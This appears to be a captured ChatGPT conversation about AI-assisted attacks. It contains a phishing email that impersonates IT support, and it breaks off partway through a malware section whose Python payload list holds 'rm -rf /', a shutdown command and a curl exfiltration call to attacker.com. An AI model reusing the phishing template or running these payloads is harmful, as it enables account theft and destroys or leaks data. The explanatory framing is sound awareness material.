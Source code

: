 ⚡ 3️⃣ AI-Enhanced Phishing Emails

Attackers use GPT-4, ChatGPT, and LLM-based bots to craft highly convincing phishing emails.
🔴 Example: AI-Written Phishing Email

An attacker asks GPT-4 to write an urgent email pretending to be IT support:

Subject: 🔴 Immediate Action Required: Password Reset

Dear [User's Name],

Your account has been flagged for unusual login attempts. Please reset your password within the next 30 minutes to prevent unauthorized access.

Click here to reset your password: [Malicious Link]

Best,  
IT Security Team

🔹 AI tailors the email using personal details (e.g., LinkedIn, breached databases).
🔹 Emails bypass spam filters because they are grammatically correct and personalized.
✅ How to Defend Against AI-Generated Phishing Emails

    Use AI-powered anti-phishing tools like Google’s AI-based spam filtering.
    Train employees to recognize AI-crafted phishing attempts.
    Verify links before clicking (Hover over links to see the real URL).

🚀 Final Thoughts: What’s Next?

We've covered: ✅ AI-generated deepfake phishing (voice & video)
✅ Automated AI-powered XSS attacks
✅ GPT-powered phishing emails that bypass filters

🔹 Would you like to explore AI-powered malware (e.g., AI-driven ransomware, AI-generated exploits)? 🚀
You said:
yes please
ChatGPT said:
🔥 AI-Powered Malware: AI-Driven Ransomware & AI-Generated Exploits 🚀

Cybercriminals are now using AI to automate malware development, making attacks more sophisticated, adaptive, and undetectable. AI is being used to generate ransomware, polymorphic malware, and automated exploits that evade traditional security defenses.
⚡ 1️⃣ AI-Generated Polymorphic Malware (Undetectable by Antivirus)

🔹 Polymorphic malware is a type of malware that constantly changes its code structure to evade antivirus detection.
🔹 Attackers now use AI to automate the process of modifying the malware every time it is executed.
🔴 Example: AI-Powered Code Mutation

An attacker uses AI to dynamically change malware’s code before execution.

import random

payloads = [
    "os.system('rm -rf /')", 
    "os.system('shutdown -h now')",
    "subprocess.run(['curl', '-X', 'http://attacker.com/steal'])"
]
